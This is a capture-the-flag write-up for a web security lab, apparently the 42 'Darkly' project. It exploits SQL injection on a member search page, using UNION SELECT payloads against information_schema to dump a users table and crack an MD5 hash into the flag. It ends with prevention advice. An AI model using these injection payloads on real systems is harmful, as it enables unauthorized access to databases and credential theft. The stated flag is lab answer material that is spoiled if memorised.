


# Solution

```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```  


On the Search member by Id page, if we enter something, we get this message:  
> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1.  

-> The website is not protected against SQL injections.

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an *SQL injection UNION attack*.  

Information_schema is the table which contains meta-data, with information about all the tables and columns of the database.

- To see how many columns there are, we can use:  
```1 order by 1
1 order by 2
1 order by 3
etc...
```
-> We get an error at 3, therefore, there are 2 columns.
`Unknown column '3' in 'order clause'`

- To see all the users in a table  
`1 OR 1=1`  
-> We can also see that there are 2 columns (First name and Surname).

The following will show all the tables per database.  
> 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 

Since 1=1 will always return true, the query will return all the items in the database.



-> We see that there is this user:  
```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 
First name: Member_Sql_Injection
Surname : users
```

-> The Member_Sql_Injection is in the USERS table.  

With `1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`  

  

We can retrieve all the columns of the USERS table:  
```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

As the table only has 2 columns, we can only select 2 columns from the users table that we want to see.  
By selecting "Commentaire" and "countersign" from the USERS table, we get this:  
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```  

  

With dcode, we see that the password is encrypted in MD5, and is **FortyTwo**.
fortytwo -> SH256 = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


Attackers can use SQL Injections to find the credentials of other users in the database.  
They can then impersonate them, and gain complete access to all the data.
They can then alter/add/delete the data.

The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements.  
The application code should never use the input directly, potential malicious code elements such as single quotes must be removed from the inputs.
Also, it can be good to turn off the visibility of database errors on the website.